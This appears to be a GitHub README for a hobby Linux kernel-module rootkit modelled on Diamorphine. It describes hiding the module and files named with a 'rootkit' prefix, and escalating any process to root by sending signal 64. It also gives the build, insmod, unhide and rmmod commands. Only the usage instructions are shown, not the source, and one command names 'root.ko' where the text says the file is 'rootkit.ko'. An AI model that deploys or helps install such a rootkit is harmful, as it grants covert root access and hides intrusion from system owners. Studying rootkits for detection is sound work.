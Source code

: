 # LKM_Rootkit

My attempt at a Kernel Module rootkit. This is heavy influenced by the Diamorphine (https://github.com/m0nad/Diamorphine) rootkit. Listens to signals and will perform actions based on signal number.  

#### Features
Rootkit will hide any file that matches the 'magic_prefix' -- currently 'rootkit'. This can be toggled with the '63' signals.
```
kill -63 0
```
Rootkit will also change current user contest to uid=0, euid=0, suid=0, and fsuid=0 on the 64 signals
```
kill -64 0
```

#### Requirements:
During my testing on an Ubuntu 22-04, I needed to install gcc12  
```
sudo apt update
sudo apt install gcc-12
```

#### Running it
You should then be able to run 'make' inside of the directory
```
make
```

This should make a lot of files, with the most important being 'rootkit.ko'. This is your kernel module. You can insert this by using the insmod command.  
```
sudo insmod root.ko
```

It will automatically hide itself and all files that begin with the name 'rootkit' so you won't be able to simply run a lsmod command. You can send a '63' signal using the kill command to make it unhide everything. It should appear at the top of the kernel module listing as it was recently added.
```
lsmod
kill -63 0
lsmod
```


#### Removing it
You can then remove the module by using the rmmod command. You will need to first unhide it or the system won't be able to see it to remove it.
```
kill -63 0 #if you cannot see it in the lsmod
sudo rmmod rootkit
```

If you make any changes to the code, remember to make clean or you may run into wonky issues
```
make clean
make
```
